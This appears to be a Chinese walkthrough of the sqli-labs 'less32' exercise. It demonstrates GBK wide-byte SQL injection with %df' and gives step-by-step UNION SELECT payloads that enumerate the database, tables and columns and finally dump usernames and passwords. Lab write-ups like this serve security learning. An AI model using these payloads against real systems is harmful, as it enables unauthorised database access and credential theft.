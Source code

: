```yaml
---
title: less32
url: https://www.yuque.com/u29002979/ep2zrx/bnzgag189k30mu7y
---
```


```bash
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
    
    return $string;
}

mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

** 宽字节注入**，利用mysql使用GBK编码,将两个字符看作一个汉字的特性，
消除转义符号""，使单引号成功逃逸出来。get型宽字节**%df'**

<a name="Oqn0G"></a>

# 检查注入点

`1'`

> Hint: The Query String you input is escaped as : 1'
> The Query String you input in Hex becomes : 315c27

单引号**被转义**了。

`?id=1%df' and 1=1--+`

> Hint: The Query String you input is escaped as : 1�' and 1=1--
> The Query String you input in Hex becomes : 31df5c2720616e6420313d312d2d20

通过页面的回显发现确实存在宽字节注入

`输入?id=1 and 1=2，经过站长工具检验，3120616e6420313d32就是1 and 1=2的**16进制编码**` <a name="lZ5eZ"></a>

# 判断字段数

`?id=1%df' and 1=1 order by 4--+ `

> Unknown column '4' in 'order clause'
> 没有第4列

`?id=1%df' and 1=1 order by 3--+ `正常回显
有3列 <a name="nkL2x"></a>

# 找回显点

`?id=1%df' and 1=2 union select 1,2,3--+` &#x20;
显示2，3是回显点

<a name="Fo51J"></a>

# 爆破数据库名称

`?id=1%df' and 1=2 union select 1,2,database()--+` <a name="mfEoD"></a>

# 爆破数据库表名称

`?id=1%df' and 1=2 union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+` <a name="UUMj0"></a>

# 爆破字段名称

因为'users'中单引号会被转义，因此采取十六进制代替'users'
**users的16进制是0x7573657273**
`?id=1%df' and 1=2 union select 1,2,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name=0x7573657273--+` <a name="uMeKf"></a>

# 爆破字段内容

`?id=1%df' and 1=2 union select 1,2,(select group_concat(username,0x7e,password) from users)--+`
